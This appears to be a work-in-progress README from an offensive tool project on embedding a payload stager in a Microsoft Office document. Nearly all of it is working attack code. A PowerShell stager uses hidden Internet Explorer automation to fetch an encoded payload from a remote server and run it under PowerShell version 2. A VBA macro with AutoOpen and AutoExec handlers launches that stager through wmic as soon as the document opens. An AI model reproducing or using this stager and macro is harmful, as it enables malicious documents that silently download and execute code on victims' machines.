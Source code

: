 # NOTE: WORK IN PROGRESS

### Embed Payload Stager into a Microsoft Document

* Use the following powershell stager to run the payload (replace `<SRV>` with the URL of the google web server):

```
$i=new-object -com internetexplorer.application;
$i.visible=$false;
$i.silent=$true;
$i.navigate2('<SRV>',14,0,$null,$null);
while($i.busy -or ($i.readystate -ne 4)){sleep -seconds 1};
$p=$i.document.lastchild.innertext;
$i.quit();
powershell.exe -v 2 -noE -NonI -nOpR -eNc $p;
```

* Use the same compression script for `client.ps1` for this payload to get the base64 encoded stager command
* Here is an example Microsoft VBS macro used to call the previously mentioned powershell stager:

```
Private Sub run()
  Dim cmd As String
  cmd = "wmic process call create 'powershell.exe -nOpR -nonI -eNc <stager>'"
  Set sh = CreateObject("WScript.Shell")
  res = sh.run(cmd,0,True)
End Sub
Sub AutoOpen()
  run
End Sub
Sub AutoExec()
  run
End Sub
Sub Auto_Open()
  run
End Sub
Sub Auto_Exec()
  run
End Sub
```

* Fun test commands:
  * `(new-object -com SAPI.SpVoice).speak('self destruct in 9 8 7 6 5 4 3 2 1 boom')`
  * `$e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate('https://www.youtube.com/watch?v=dQw4w9WgXcQ');`